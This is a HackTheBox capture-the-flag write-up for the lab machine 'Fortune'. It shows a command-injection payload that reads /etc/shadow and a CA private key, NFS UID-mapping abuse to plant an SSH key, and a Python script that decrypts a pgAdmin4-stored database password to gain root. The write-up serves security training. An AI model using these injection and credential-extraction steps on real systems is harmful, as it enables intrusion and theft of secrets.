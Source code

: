 ```yaml
---
title: "HackTheBox - WriteUp 11"
date: 2019-07-05T19:10:22+08:00
description: "HackTheBox 练手 - Fortune - BSD AUTHPF"
featuredImage: "https://alicdn.kmahyyg.xyz/asset_files/aether/cat_tech.webp"
categories: ["tech"]
draft: false
displayInMenu: false
displayInList: true
dropCap: false
---
```


# Fortune

## User

Nmap it: 22,80,443.

Then, Access 80. Burpsuite, try to submit the form, found a POST at `/select` with `db=blahblah`, This param included RCE, modify the request like this: `db=blah;cat /etc/shadow`, you'll get the response.

Found a user called `charlie`, `bob`, `nfsuser`. Then use the RCE we just found to read two files:

- /home/bob/ca/intermediate/private/intermediate.key.pem
- /home/bob/ca/intermediate/certs/intermediate.cert.pem

Then use this to create a cert: `openssl pkcs12 -inkey intermediate.key.pem -in intermediate.cert.pem -export -out inter_pfx.pfx`, and then import this certificate to your browser.

> https://www.openbsd.org/faq/pf/authpf.html

Finally, access the 443 port and get the RSA keys of SSH, then login as `nasuser` with the key you've just get. Keep the connection alive to let you continue your operation.

Nmap again, you'll find the NFS port is opened. Then `apt install nfs-common -y`, enum the nfs share with `nmap -oN fortune.nfsshowmount.nmap --script=nfs-showmount 10.10.10.127`, you'll get home shared. Mount the NFS using `mount.nfs 10.10.10.127:/home /mnt/nfs1`. NFS has a UID mapping. So create a user with UID 1000, access `/mnt/nfs1/charlie`, then you have the `user.txt`.

## Root

After that, write the public key you've just got to the `/mnt/nfs1/charlie/.ssh/authorized_keys`, then the home folder contains a file called `mbox`, this is a mail archive telling you that dba password is the same as the root.

Check the process list, you will find postgresql and `pgadmin4`. Check `/var/appsrv/pgadmin4`, there is a `PGAdmin4 V3.4` here, but installed on `/usr/local/pgadmin4/pgadmin4-3.4/`, check the folder, from the `<PGADMIN4>/web/utils/crypto.py`, you will find how to decrypt the hash we will got.

Then, at `/var/appsrv/pgadmin4/pgadmin4.db`, use `select * from server;`, the hash you've found is the hashed key of dba, and this hash is encrypted using AES-128-CFB, ciphertext is encoded in base64 with IV attached.

The encrypt password is the logged-in user's password, use `select * from user;`, just use the bob's hashed password as the encryption password, and decrypt. Decryptor Script as below:

```python
#!/usr/bin/env python3

import base64
import hashlib

from Crypto import Random
from Crypto.Cipher import AES

padding_string = b'}'

def pad(key):
    """Add padding to the key."""

    global padding_string
    str_len = len(key)

    # Key must be maximum 32 bytes long, so take first 32 bytes
    if str_len > 32:
        return key[:32]

    # If key size id 16, 24 or 32 bytes then padding not require
    if str_len == 16 or str_len == 24 or str_len == 32:
        return key

    # Convert bytes to string (python3)
    if not hasattr(str, 'decode'):
        padding_string = padding_string.decode()

    # Add padding to make key 32 bytes long
    return key + ((32 - str_len % 32) * padding_string)

    
def decrypt(ciphertext, key):
    """
    Decrypt the AES encrypted string.
    Parameters:
        ciphertext -- Encrypted string with AES method.
        key        -- key to decrypt the encrypted string.
    """

    global padding_string

    ciphertext = base64.b64decode(ciphertext)
    iv = ciphertext[:AES.block_size]
    cipher = AES.new(pad(key), AES.MODE_CFB, iv)
    decrypted = cipher.decrypt(ciphertext[AES.block_size:])

    return decrypted
    

cept = "utUU0jkamCZDmqFLOrAuPjFxL0zp8zWzISe5MF0GY/l8Silrmu3caqrtjaVjLQlvFFEgESGz".encode()
key4aes = "$pbkdf2-sha512$25000$z9nbm1Oq9Z5TytkbQ8h5Dw$Vtx9YWQsgwdXpBnsa8BtO5kLOdQGflIZOQysAy7JdTVcRbv/6csQHAJCAIJT9rLFBawClFyMKnqKNL5t3Le9vg".encode()
print(decrypt(cept,key4aes).decode())
```

The decrypted password is: `R3us3-0f-a-P4ssw0rdl1k3th1s?_B4D.ID3A!`

Then `su root` and do anything you want.

(END)

